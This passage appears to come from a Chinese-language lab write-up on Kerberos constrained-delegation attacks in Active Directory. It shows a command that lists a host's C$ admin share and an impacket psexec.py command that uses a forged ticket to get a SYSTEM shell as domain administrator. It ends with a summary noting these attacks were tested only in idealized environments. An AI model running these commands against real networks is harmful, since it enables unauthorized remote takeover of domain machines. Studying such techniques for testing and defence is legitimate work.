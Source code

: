 ### 利用票据连接

```
dir \\data.xiaodi.local\c$    ##默认连接，权限低。
python psexec.py -k xiaodi.local/administrator@data.xiaodi.local -no-pass   ##可提升为system权限。
```

![image-20230807194914658](assets/image-20230807194914658.png)

# 总结

其实总体来说，约束委派类，不是太经常遇到，同时在操作过程中，还有很多是需要交互的，或者一些特殊的操作，其中有一点不对则无法利用成功，不像其他漏洞，能不能利用基本上测试一下就能确定了，而这个有可能测试完也无法成功，上面案例中能够测试成功，均是在理想化环境中测试。
